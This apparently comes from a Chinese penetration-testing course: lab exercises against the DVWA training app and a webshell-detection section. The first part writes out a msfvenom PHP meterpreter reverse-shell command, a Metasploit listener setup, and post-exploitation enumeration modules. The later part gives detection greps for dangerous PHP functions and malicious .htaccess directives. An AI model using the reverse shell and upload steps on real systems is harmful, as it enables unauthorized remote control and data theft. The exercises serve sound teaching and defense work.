# 第四章：渗透测试靶场实战
##  Metasploit 基础使⽤
## 实验⼀
**使⽤ Metasploit 创建并利⽤ DVWA 的⽂件上传漏洞，并完成 Webshell 的连接**
### 步骤⼀
#### 使⽤ msfvenom 创建⼀个 PHP meterpreter 反向 TCP shell  
 `msfvenom -p php/meterpreter/reverse_tcp lhost=172.17.0.1 lport=4444 -f raw > webshell.php`



 ### 步骤二
 #### 在 msfconsole 中配置监听端口
 ```
msfconsole
msf6 exploit(multi/handler) > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set lhost 172.17.0.1
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit
```



 ### 步骤三
 #### 利⽤ DVWA 中 low 难度的⽂件上传漏洞，完成利⽤
 ```
# 1. 登录DVWA 应⽤程序并将安全级别设置为低
# 2. 前往⽂件上传漏洞⻚⾯
# 3. 在应⽤程序中上传创建的webshell
# 4. 复制上传⽂件的路径并在浏览器中加载
 ```






 ### 步骤四
 #### 利⽤结果：Webshell 执⾏后，将在 Meterpreter 中打开⼀个会话，我们现在可以在终端中执⾏所有命令





 #### 将已连接成功的会话挂在后台
` meterpreter > bg`



## 实验⼆：使⽤ Metasploit 后渗透模块
### 步骤⼀：使⽤ checkvm 模块
``` 
msf > use post/linux/gather/checkvm
msf post(checkvm) > show options
msf post(checkvm) > sessions -l
msf post(checkvm) > set SESSION 1
msf post(checkvm) > run
```




### 步骤⼆：使⽤ enum_configs 模块
``` 
msf6 exploit(multi/handler) > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > show options
msf6 post(linux/gather/enum_configs) > set SESSION 1
msf6 post(linux/gather/enum_configs) > run
```




#### 查看 enum_configs 找到的配置⽂件




### 步骤三：使⽤ enum_network 模块
```
msf6 post(linux/gather/enum_configs) > use post/linux/gather/enum_network 
msf6 post(linux/gather/enum_network) > show options
msf6 post(linux/gather/enum_network) > set SESSION 1
msf6 post(linux/gather/enum_network) > run
 ```



 #### 查看 enum_network 找到的配置⽂件




 ### 步骤四：使⽤ enum_system 模块
 ```
msf6 post(linux/gather/enum_protections) > use post/linux/gather/enum_system 
msf6 post(linux/gather/enum_system) > show options
msf6 post(linux/gather/enum_system) > set SESSION 1
msf6 post(linux/gather/enum_system) > run
 ```




 #### 查看 enum_system 找到的配置⽂件



 ## Webshell 的检测和预防

 ## 实验三：Webshell 检测实践

 ### 步骤⼀：检查服务器访问⽇志和错误⽇志

 #### ⾸先，必须过滤服务器访问⽇志和错误⽇志，以查找 Web Shell 正在使⽤的常见关键字。这包括⽂件名和/或参数名称。

```
cat /var/log/apache2/access.log | awk -F\" ' { print $1,$2 } ' | grep "shell"
```

    

 ### 步骤⼆：检查 Web 服务器根⽬录
 #### 在⽂件系统（通常是Web服务器根⽬录）中搜索⽂件或⽂件名中的常⻅字符串。

```
 cd /var/www/html/
 grep -RPn "(passthru|exec|eval|shell_exec|assert|str_rot13|system|phpinfo|base64_decode|chmod|mkdir|fopen|*\("
```

 

 ### 步骤三：检查最近⼏天内容修改的⽂件     
 #### 搜索最近 X 天内修改的⽂件。在以下⽰例中，我们搜索了最后⼀天内更改*.php 的⽂件，但建议搜索任意⽂件更改，因为 Web shell 也可以嵌⼊到图像或任何其他⽂件中。

```
 find -name '*.php' -mtime -1 -ls
```

 

 ### 步骤四：检查异常⽹络流量和⽹络连接

```
ss -t -u -a
```

 

 ### 步骤五：检查敏感配置⽂件
#### 分析 .htaccess ⽂件以进⾏修改。以下是攻击者可能对 .htaccess ⽂件进⾏的更改⽰例。

```
 AddType application/x-httpd-php .htaccess
 AddType application/x-httpd-php .jpg

这两条指令的含义是：

第一条指令告诉Apache服务器，将.htaccess文件作为PHP脚本处理。通常，.htaccess文件只是纯文本配置文件，不应该被执行。这个更改允许攻击者将.htaccess文件本身变成一个可以执行的PHP脚本，这可能会带来严重的安全风险。
第二条指令告诉Apache服务器，将任何扩展名为.jpg的文件也作为PHP脚本处理。这通常是一个图片文件的扩展名，这样的更改允许攻击者上传一个看似无害的图片文件，实际上却包含PHP代码，服务器会执行这个文件中的代码。
```

## 遇到的问题
SESSION的编号对不上，或是SESSIONS列表为空。
因为另开了一个msfconsole所以在另外一个msfconsole中没有其他的SESSIONS，由于在已启动的msfconsole中SESSION的数量可能不同，所以SESSION对应的编号也就不一样，在进行相关操作前，需要先检查一下已有的SESSIONS目录，即`sessions -l`
`
## 参考文献 

